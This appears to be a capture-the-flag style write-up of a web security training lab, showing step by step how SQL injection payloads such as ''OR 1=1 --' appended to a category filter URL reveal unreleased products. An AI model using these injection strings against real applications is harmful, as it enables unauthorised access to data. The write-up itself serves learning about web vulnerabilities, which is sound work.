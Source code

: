 ## This lab contains a SQL injection vulnerability in the product category filter.When the user selects a category, the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
## To solve the lab, perform a SQL injection attack that **causes the application to display one or more unreleased products.**

## Step 1 : Access the lab
![access](Images/l1step-1.png)
## Step 2 : Check Gifts 
![check gifts](Images/l1step-2.png)
## When we explore gifts section there is only three released product.
## Let us try to check if there are any unreleased product
## Use Burp Suite to intercept and modify the request that sets the product category filter.OR modify URL and resubmit request.

## first attempt
```
'--'AND released=1'
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'--'AND released=1'
```
-- Application displays 4 products including one unreleased product.
## second attempt
```
'OR 1=1 --released=1
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'OR 1=1 --released=1
```
-- Application displays more than 4 unreleased products.
-- double hyphen(--)  is used to comment out or ignore  what is written after hyphen which ignored the filter released product=1 and displays all the product.

